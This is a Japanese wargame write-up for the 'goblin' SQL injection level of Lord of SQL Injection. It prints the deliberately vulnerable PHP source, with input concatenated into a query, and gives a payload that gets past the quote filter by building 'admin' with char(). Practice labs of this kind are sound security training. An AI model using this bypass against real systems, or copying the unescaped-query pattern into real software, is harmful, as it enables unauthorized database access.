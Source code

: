 # goblin

## answer

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=2 or id = char(97,100,109,105,110)
```

## problem

```
query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

## memo

```?no=aaa```とかで試してみる。

```query : select id from prob_goblin where id='guest' and no=aaa```となった。まあそうか。


コードを読んでいく。

「prob」or「_」or「\.」or「\(\)」、「\\」、「"」、「`」これらが正規表現にマッチしたら、exit。

動きとしては、id=guestかつno='活用'のときのselectで値が引っかかったときにquery resultに何かしらの値が入る。

```if($result['id'] == 'admin') solve("goblin");```

とあるので、ログインが成功したあとでもDBから返ってきたidがadminになったときに問題が解ける。

'がフィルターされているときは"で置き換えるのがセオリーらしいが、"もフィルターされているのでどうしようかと悩む。

そこで、adminという文字列のASCII値をchar()関数で戻しながらexploitに注入する方向で考えてみる。

adminのASCII値を調べて条件に組み込む。

```
select id from prob_goblin where id='guest' and no=aaa or id='admin'
```

このクエリを完成形で目指してエクスプロイトを考えたい。

```
https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=2 or id = char(97,100,109,105,110)
```

できた。


## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [BSides Delhi CTF 2018 Write up | こんとろーるしーこんとろーるぶい](https://graneed.hatenablog.com/entry/2018/10/26/232304)

- [ASCIIコード表 | TOMOJI blog](http://www9.plala.or.jp/sgwr-t/c_sub/ascii.html)

- [char and varchar type | my sql manual](https://dev.mysql.com/doc/refman/5.6/ja/char.html)